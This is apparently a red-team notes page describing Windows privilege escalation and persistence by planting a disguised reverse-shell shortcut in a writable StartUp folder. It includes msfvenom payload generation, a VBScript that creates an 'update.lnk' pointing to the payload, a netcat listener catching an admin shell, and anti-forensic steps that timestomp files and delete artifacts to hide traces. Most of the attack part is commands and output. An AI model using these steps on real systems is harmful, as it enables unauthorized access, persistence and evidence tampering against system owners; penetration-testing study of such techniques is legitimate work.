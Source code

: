 # Living off the Land

One of the privilege escalation technique and so far the easiest ones to exploit it is Startup programs in the `StartUp` folder. Some versions of Windows operating systems vary to one another and it could be server or a workstation do a bit of research to find those locations and this technique is part of persistence mechanism to maintain access.

## 01 - Enumerate

TODO: Rewrite from command prompt to powershell

In command prompt:

```
C:\> icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp BUILTIN\Users:(OI)(CI)(F)
                                                             WIN-QBA94KB3IOF\Administrator:(I)(OI)(CI)(DE,DC)
                                                             WIN-QBA94KB3IOF\admin:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)
```

In powershell:

```
PS C:\> Get-ACL "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp" | Format-List AccessToString
```

## 02 - Exploit

TODO: Take note of the timestamp with powershell to clear traces

```
PS C:\> Get-Item CreateShortcut.vbs | Select-Object Name, CreationTime, LastWriteTime, LastAccessTime

PS C:\> Get-ItemProperty CreateShortcut.vbs | Select-Object Name, CreationTime, LastWriteTime, LastAccessTime
```

```
$ msfvenom -p windows/x64/shell_reverse_shell lhost=<IP> lport=53 -f exe -o payload.exe
```

We can copy the payload to the start up folder or we can create a shortcut link file to redirect the path of our payload.

TODO: Use `shortcutgen` to upload the `.lnk` payload.

```vbscript
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\update.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\path\to\payload"
oLink.Save
```

Execute the modified VBScript.

```
C:\> cscript CreateShortcut.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
```

Launch the shell handler.

```
$ sudo nc -lvnp 53
```

Now we wait for the administrator user to login and wait for a callback connection.

```
$ xfreerdp /u:"<username>" /p:"<password>" /sec:<rdp | tls | nla> /v:<IP>

$ sudo nc -lvnp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.221.80.
Ncat: Connection from 10.10.221.80:49882.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32> whoami
win-qba94kb3iof\admin
```

## 03 - Cleanup

Manually timestamp the dates.

```powershell
PS C:\> $file = "C:\path\to\CreateShortcut.vbs"
$creationtime = Get-Date "YYYY-MM-DD hh:mm:ss"
$lastwritetime = Get-Date "YYYY-MM-DD hh:mm:ss"
$lastaccesstime = Get-Date "YYYY-MM-DD hh:mm:ss"
Set-ItemProperty -Force -Path $file -Name CreationTime -Value $creationtime
Set-ItemProperty -Force -Path $file -Name LastWriteTime -Value $lastwritetime
Set-ItemProperty -Force -Path $file -Name LastAccessTime -Value $lastaccesstime
```

Now the problem is through this netcat handler we can't revert back to it's original binary file. However, once you perform this technique use `metasploit-framework` as a shell handler since it is easily can be migrated to another process and to revert back just like I've previously demonstrated when covering your traces. Take this OPSEC measure into account.

```
C:\Windows\System32> del "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\update.lnk"

C:\Windows\System32> del /path/to/shell.exe
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/12 - Anti-Forensics/Windows/Clear Traces/02 - Timestomps/Manual/Living off the Land|Windows: Timestomp]]

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)